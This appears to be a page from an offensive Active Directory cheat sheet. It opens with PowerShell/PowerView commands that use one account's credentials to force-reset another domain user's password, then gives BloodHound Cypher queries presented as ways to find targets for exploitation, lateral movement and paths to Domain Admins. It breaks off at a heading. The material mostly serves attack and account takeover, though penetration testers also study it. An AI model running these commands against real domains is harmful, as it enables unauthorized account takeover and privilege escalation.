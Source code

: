 ```
or

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('CORP\dfm.a', $SecPassword)

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity robert -AccountPassword $UserPassword -Credential $Cred


$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity robert -AccountPassword $UserPassword

net user robert Password123! /domain


# Find-InterestingDomainAcl


```


### Custom BloodHound Queries

#### Query to List All Users

This query returns all user objects in the Active Directory, which can be useful for identifying potential targets for further exploitation or reconnaissance.

cypherCopy code

`MATCH (u:User) RETURN u.name`

#### Query to List All Computers

This query returns all computer objects in the Active Directory. Identifying all computers can help in understanding the network's structure and identifying valuable targets for lateral movement or further exploitation.

cypherCopy code

`MATCH (c:Computer) RETURN c.name`

#### 1. Find All Domain Admins

Identify all users who are members of the Domain Admins group, which will give you insights into high-value targets within the network.

cypherCopy code

`MATCH (g:Group)-[:MemberOf*1..]->(h:Group {name: 'Domain Admins@DOMAIN.COM'}) MATCH (u:User)-[:MemberOf]->(g) RETURN u.name`

#### 2. Uncover Shortest Paths to Domain Admins
